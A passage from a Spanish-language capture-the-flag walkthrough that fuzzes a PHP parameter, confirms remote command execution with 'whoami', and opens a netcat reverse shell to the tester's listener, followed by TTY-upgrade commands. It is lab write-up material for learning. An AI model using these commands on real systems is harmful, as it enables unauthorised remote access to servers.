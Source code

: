```
________________________________________________

frodo                   [Status: 200, Size: 9, Words: 1, Lines: 2, Duration: 203ms]
:: Progress: [20469/20469] :: Job [1/1] :: 1612 req/sec :: Duration: [0:00:11] :: Errors: 0 ::
```

Veremos que hemos encontrado un parametro en el que se puede ejecutar codigo de forma remota `(RCE)`, por lo que vamos a entrar para verificarlo.

```
URL = http://<IP>/y0ush4lln0tp4ss/east/mellon.php?frodo=whoami
```

Info:

```
www-data
```

Vemos que funciona, por lo que vamos a realizar una `reverse shell` de esta forma:

```
URL = http://<IP>/y0ush4lln0tp4ss/east/mellon.php?frodo=nc -c sh <IP> <PORT>
```

Antes de enviarlo nos pondremos a la escucha.

```shell
nc -lvnp <IP>
```

Ahora si enviamos el anterior comando y volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.4] from (UNKNOWN) [192.168.5.35] 53132
whoami
www-data
```

Vemos que hemos obtenido una shell como el usuario `www-data` por lo que vamos a sanitizarla.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```
